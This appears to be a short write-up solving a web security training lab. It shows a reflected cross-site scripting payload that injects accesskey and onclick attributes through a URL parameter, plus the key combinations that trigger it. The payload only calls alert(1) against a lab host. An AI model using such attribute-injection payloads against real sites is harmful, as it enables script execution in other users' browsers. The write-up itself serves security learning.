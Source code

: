 ![image](https://github.com/udayk01/Web-Security/assets/52235763/55f552fc-63df-4b6e-9e02-ea90d0b98fbc)

## Solution: 

> Visit the following URL, replacing YOUR-LAB-ID with your lab ID:

``` https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)```

> This sets the X key as an access key for the whole page. When a user presses the access key, the alert function is called.

![WhatsApp Image 2024-03-25 at 11 36 50_aab7e074](https://github.com/udayk01/Web-Security/assets/52235763/7277f9bd-2fc4-4d88-b1ae-5041c0383619)

> To trigger the exploit on yourself, press one of the following key combinations:

>> On Windows: ALT+SHIFT+X

>> On MacOS: CTRL+ALT+X

>> On Linux: Alt+X

![image](https://github.com/udayk01/Web-Security/assets/52235763/dd2ab496-9841-4e70-805c-3f0b064b4d25)

> ``` ?%27accesskey=%27x%27onclick=%27alert(1)```

![image](https://github.com/udayk01/Web-Security/assets/52235763/1d5c0370-d138-46d3-aff7-2812551aaa57)
